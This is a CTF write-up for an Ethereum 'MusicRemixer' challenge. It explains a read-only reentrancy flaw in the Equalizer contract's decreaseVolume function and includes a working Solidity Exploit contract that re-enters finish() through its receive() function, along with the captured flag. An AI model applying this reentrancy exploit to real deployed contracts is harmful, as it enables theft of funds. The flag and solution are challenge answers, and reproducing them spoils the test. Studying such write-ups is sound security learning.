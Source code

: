 The initial value of `_getD(gains)` is `3e20`, and `totalVolumeGain` is also `3e20`.
It seems that a small change in either could increase the `complexity` value.

The `gains` and `totalVolumeGain` are changed by the `increaseVolume` and `decreaseVolume` functions.
However, if we call the `increaseVolume` and `decreaseVolume` functions as a trial, we will see that `_get(gains) == totalVolumeGain` is always true in the usual way.
In other words, we have to break this equivalence.

Let's start reading this `Equalizer` contract carefully.

We can find that the `decreaseVolume` function does not follow the Checks-Effects-Interactions pattern.

```solidity
    function decreaseVolume(uint256 variation) external nonReentrant returns (uint256[N] memory amounts) {
        if (variation == 0) {
            revert Invalid("variation");
        }
        uint256 _totalVolumeGain = totalVolumeGain;

        for (uint256 i; i < N; ++i) {
            uint256 amount = (variation * gains[i]) / _totalVolumeGain;
            gains[i] -= amount;
            amounts[i] = amount;

            if (i == 0) {
                payable(msg.sender).sendValue(amount);
            } else {
                IERC20(bands[i]).safeTransfer(msg.sender, amount);
            }
        }

        _burn(msg.sender, variation);
    }
```

It has a typical Read-Only Reentrancy vulnerability that we often see in [Curve Finance](https://chainsecurity.com/curve-lp-oracle-manipulation-post-mortem/) and others.
When `i == 0`, an Ether transfer can be received by the fallback function of the attack contract.
At that time, the attack contract can call the `finish` function to cause an inconsistency between `gains` and `totalVolumeGain`.

Therefore, the following `Exploit` contract will get the flag.
The `msg.value` can be any proper value, e.g., 0.5 ether.

```solidity
contract Exploit {
    MusicRemixer musicRemixer;

    function exploit(address musicRemixerAddr) public payable {
        musicRemixer = MusicRemixer(musicRemixerAddr);
        musicRemixer.equalizer().increaseVolume{value: msg.value}([uint256(msg.value), 0, 0]);
        uint256 volume = musicRemixer.equalizer().volumeGainOf(address(this));
        musicRemixer.equalizer().decreaseVolume(volume);
    }

    receive() external payable {
        musicRemixer.finish();
    }
}
```

Flag: `SEKAI{T0o_H4rd_4_M3_2_p1aY_uwu_13ack_7o_Exp3rt_l3v3l}`

After all, there is no need to change the `tempo`.
